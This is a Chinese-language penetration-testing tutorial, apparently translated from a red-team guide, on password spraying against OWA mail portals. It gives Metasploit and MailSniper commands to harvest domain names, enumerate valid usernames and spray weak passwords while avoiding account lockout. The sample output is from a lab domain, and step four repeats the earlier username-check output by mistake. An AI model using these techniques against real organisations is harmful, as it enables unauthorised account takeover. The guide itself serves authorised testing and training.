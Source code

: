 ## Password spraying
下文译作密码碰撞

###常见手法
密码碰撞是一种使用使用有效的用户名和弱口令进行排列组合尝试登录的技术，目的是获得有效的身份凭证。

这种技术在从某种程度上来说并不可靠的，一不小心执行就会导致自己处于暴露的边缘。在碰撞之前，我们应该应该摸清楚目标的各个规则，如错误锁定时间次数等，以一种可控的方式尝试密码碰撞，并跨多个用户以避免锁定。也就是说密码碰撞实际上就属于暴力破解。

这项技术的使用是有前提的。不管它是在外网还是在内网执行，道理都是一样的。绝大部分需要的注意的东西都可以轻松试出了。

###前提准备
* 可碰撞的服务
* 域名/ip
* 用户名或邮箱

###常用工具
* [DomainPasswordSpray​](https://github.com/dafthack/DomainPasswordSpray)
* [MailSniper​](https://github.com/dafthack/MailSniper)
* [auxiliary/scanner/http/owa_login​](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login)
* [auxiliary/scanner/http/owa_ews_login​](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login)

-------

###外网
现如今绝大部分企业都为自己的员工提供了企业邮箱，所以当我们在外网发起的攻击时就可以把这作为一个攻击入口。下面以OutLook(下面简称OWA)）为例说明:
![](https://raw.githubusercontent.com/crazywa1ker/DarthSidious-Chinese/master/INITIAL%20ACCESS/15405551684973.png)

如图，如果我们可以尝试用普通密码验证时找到其规律。我们就可以尝试使用公共密码进行身份验证。但是要注意在碰撞的时候不要超过登录失败后账户锁定的阈值。很多企业门户在连续尝试五到十次之后就账户就会被锁定了，有些甚至只有三次机会。锁定的时间通常为30分钟。在碰撞时一定要谨慎，具体情况得具体分析。

**第一步：寻找可碰撞的服务**
OWA门户通常会出现在`mail.testlab.local` ,`testlab.local/owa`。任何ADFS集成门户在理论上都可以碰撞，因为它们的后台都是一样的AD身份验证。需要注意有些工具(如MailSniper)是针对攻击邮件门户而开发的，因此如果不是OWA门户，那么工具的部分功能并没有什么用。子域枚举工具对寻找此类门户的地址非常有用。还有一种思路是扫web目录，如testlab.local/RDweb这样的。

**第二步：获取域名**
Metasploit的owa—login模块不仅可以用于暴力破解,还可以用来寻找有漏洞的域。对用户名进行碰撞或许能够帮助你寻找到一个有效的用户名。Metasploit使用NTLM响应来识别域名。有些管理员会把域名做成logo一类的放到OWA的页面上,碰上就是再好不过的了。

```
use auxiliary/scanner/http/owa_login
set rhost <rhost>
set username <username>
set password <password>
exploit
​
[+] Found target domain: TESTLAB
```
除此之外，也可以让MailSniper根据响应时间来获取域名。

```
Invoke-DomainHarvestOWA -ExchHostname testlab.local -DomainList c:\temp\domainlist.txt -OutFile potential-domains.txt
​
[*] Harvesting Domain Name from the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid Domain! Domain:TESTLAB
```

**第三步：获取有效的用户名或者邮箱**
前面我们已经获取到了域名, 现在我们可以尝试一下枚举用户名。如果我们没找到相关用户名或邮箱,那就需要想办法获取到,比如社工库,Google,baidu,Linkedin,钟馗之眼等等。此外我们也可以尝试一下直接暴力枚举用户名,当时成功的几率通常很小。

假设这种情况,我们在Linkedin上获取到一个邮箱账号并不为奇,那么可以顺便检查一下**theHarvester**.如果他的名字是`Bill Long Money`,那么他的邮箱就很可能是`bill.money@testlab.biz`。同理如果你在百度贴吧搜索到一个QQ号,那么他的邮箱就是`xxxx@qq.com` 。

域用户名的设置通常有很多可能的规律，假设名字是:`Bill Long Money`那么用户名可能是：
* 名字的首字母+姓氏= bmoney
* 名字的字母缩写和姓氏(也可以包括中间名)= bm或blm
* 前缀(通常是字符)+名首字母+姓氏= a-bmoney
* 全名= billmoney(比较少见)

我们可以通过对不同的信息进行排列组合形成一个用户名字典。`owa_login`可以验证出用户名是否有效。比如我们试一下`bmoney`这个用户名。

```
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit
​
[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

如同提示`FAILED LOGIN, BUT USERNAME IS VALID`所说，虽让登录失败了，但是用户名是存在的嘛。

同样我们也可以使用Mailsniper进行类似的操作。

```
Invoke-UsernameHarvestOWA -ExchHostname testlab.corp.local -UserList c:\temp\userlist.txt -Domain TESTLAB -OutFile potential-usernames.txt
​
[*] Now spraying the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid! User:TESTLAB\bmoney
```

**第四步：开始碰撞**
现在有效的域和用户名都有了，我门就可以开始进行碰撞了。如前面所提醒的一样，为了防止账户被锁定。那些用户名碰撞过，确切时间，尝试了哪些密码，以及每个用户尝试了多少次等都很重要，我们需要控制好线程。

```
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit
​
[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

同理也可以使用Mailsniper进行该的操作，用户名我们放在`userlist.txt`文件里。

```
Invoke-PasswordSprayOWA -ExchHostname testlab.local -userlist .\userlist.txt -password winter2018
​
[*] Now spraying the OWA portal at https://testlab.local/owa/
​
[*] SUCCESS! User:bmoney:winter2018
```

很奈斯，碰撞到了有效的密码。

-------
###内网
碰撞不仅仅是您可以在外部找到域用户的事。如果您有内部访问权限，但不知道域用户，或者在没有其他操作权限时获得更高权限的用户的凭据，这可能非常有用。

再会！




